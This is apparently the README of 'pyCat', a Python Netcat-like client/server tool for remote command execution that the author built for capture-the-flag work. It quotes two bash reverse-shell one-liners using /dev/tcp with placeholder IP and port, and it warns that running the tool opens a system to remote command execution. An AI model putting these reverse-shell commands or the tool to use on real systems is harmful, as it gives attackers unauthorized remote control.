 # pyCat
Simple python-based client/server for interacting with remote systems.
No installation necessary. 
Just drop and run.


Why pyCat?
----------
Many times in my CTF adventures, I would find Netcat installed, but the '-e' option wouldn't be available. 

Yes, I know there are other ways to get reverse-shell when you have command-injection on a system, but I really like the ease of Netcat. 

Plus sometimes the shells I get using... 

  `bash -i >& /dev/tcp/IP/PORT 0>&1`
  
  or 
  
  `/bin/bash -c '/bin/bash>/dev/null/IP/PORT 2>&1 0>&1'`
  
...can be inconsistent or unpredictable in the way they act from time to time.



So, I found myself wanting to have a stand-alone executable of Netcat for Linux systems, but didn't find one after searching for a **SOLID** 10 minutes. It also had the added benefit of being a good way to learn more Python.


WARNING!
---------
You will be opening up a system to remote command execution if you run this!


Thanks to **Justin** for helping me debug the socket connection.
